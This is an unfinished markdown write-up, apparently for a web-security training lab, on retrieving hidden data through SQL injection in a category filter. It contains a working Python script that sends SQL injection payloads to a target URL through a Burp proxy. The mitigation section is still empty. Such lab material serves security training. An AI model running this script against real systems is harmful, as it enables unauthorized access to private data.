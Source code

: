 ```yaml
---
description: >-
  In Lab One, we see a simple SQL injection vulnerability in a WHERE clause
  allowing for the retrieval of hidden data.
---
```


# 1 - Retrieve Hidden Data

foo intro

### Hints

<details>

<summary>Hint One</summary>

The SQL injection vulnerability exists in the...

</details>

### Scripted Solution

```python
import urllib3
import requests
import sys


# Disable 'Insecure Request' warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp proxy
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}


def exploit_sqli(url, payload):
    """Exploit SQL Injection
    
    Call provided url with supplied payload and check for unreleased 
    product title in response.
    """
    uri = "/filter?category="
    r = requests.get(url + uri + payload, verify=False, proxies=proxies)

    if "Umbrella" in r.text: # Title of an "unreleased" product
        return True
    else:
        return False


if __name__ == "__main__":
    try:
        # Get url and payload arguments
        url = sys.argv[1].strip()
        payload = sys.argv[2].strip()
    except IndexError:
        print("[-] Usage: %s <url> <payload>" % sys.argv[0])
        print("[-] Example: %s www.example.com \"1=1\"" % sys.argv[0])

        sys.exit(-1)

    if exploit_sqli(url, payload):
        print("[+] SQL Injection successful!")
    else:
        print("[-] SQL Injection unsuccessful.")
```

### Security Issues & Mitigation

Coming soon...

### Key Takeaways

Coming soon...
